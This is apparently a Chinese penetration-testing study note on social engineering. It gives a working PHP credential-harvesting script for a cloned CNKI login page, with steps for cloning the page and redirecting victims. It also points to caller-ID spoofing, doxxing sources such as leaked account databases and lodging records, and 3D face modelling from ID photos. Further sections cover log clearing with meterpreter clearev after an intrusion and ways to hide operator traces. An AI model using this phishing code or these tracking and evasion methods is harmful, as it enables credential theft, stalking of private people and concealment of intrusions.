 # 渗透测试基础13

# 社会工程学认识（社工基础认识、网络钓鱼、电话钓鱼、伪装模拟-防止人家使用社工手段追踪自己、个人信息搜集、事件查看器-日志、vultr的安全操作、限制下载速度的匿名网盘——传输文件）

## 网络钓鱼：

使用网站克隆工具
实在不行，用手写



PHPstudy



新建php文件：

```
<?php

$username = $_POST['TextBoxUserName'];
$password = $_POST['TextBoxPwd'];

$txt = $username.'----'.$password;

$file = fopen('./haha.txt','w');  # 保存到文件
fwrite($file,$txt);  # 写入内容
fclose($file);   # 关闭文件

header("location:https://login.cnki.net/login/?platform=kns&ForceReLogin=1&ReturnURL=https://www.cnki.net/");
## 跳转页面

?>
```



右键另存为，保存正版网页到：

PHPstudy的www文件里

改文件夹名及格式：

![image-20220110205021816](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/image-20220110205021816.png)

![image-20220110205040133](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/image-20220110205040133.png)

全部替换：

![image-20220110205058878](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/image-20220110205058878.png)



F12，对比正版和本地网站的显示，然后下载缺失部分到www的文件夹里。

寻找登录提交的相关代码，进行修改，并设置跳转页面。



## 电话钓鱼：

https://www.spoofbox.com/zh
网络电话、假来电显示

skype软件



## 伪装模拟：

防止人家使用社工手段追踪自己。



安全指数最高的邮箱
mail.protonmail.com



10分钟邮箱



短信接码平台



注册国外的产品:
购买/注册google voice(gv)帐号(送你一个美国本土的电话)



自己制作网站：
vps(网页 vpn)
【cloudflare只能帮你防御80和443端口的攻击和追踪】



## 个人信息搜集：

策略

盗号 qq 微信 博客 微博 社区 贴吧 开房记录 外卖 快递 手机app
统称：社工库
人轨

qq-->手机号-->支付宝

群关系，学校，同学关系

3D面部建模（证件照，身份证，护照......）

简历，公司关系查询



## 渗透到对方的服务器之后：

cmd--mmc--事件查看器

![image-20220110212825671](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/image-20220110212825671.png)

![image-20220110212904449](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/image-20220110212904449.png)

（删除日志这件事本身就是一个日志，而且日志理论上无法单条删除）



关于清除日志：

meterpreter---clearev



## vultr的安全操作

vultr---使用kali的live模式--关闭ssh--直接使用网页连接(中国ip--美国vpn--vultr公司ip--内部网络操作kali-live)



## 限制下载速度的匿名网盘——传输文件：

https://anonfiles.com/





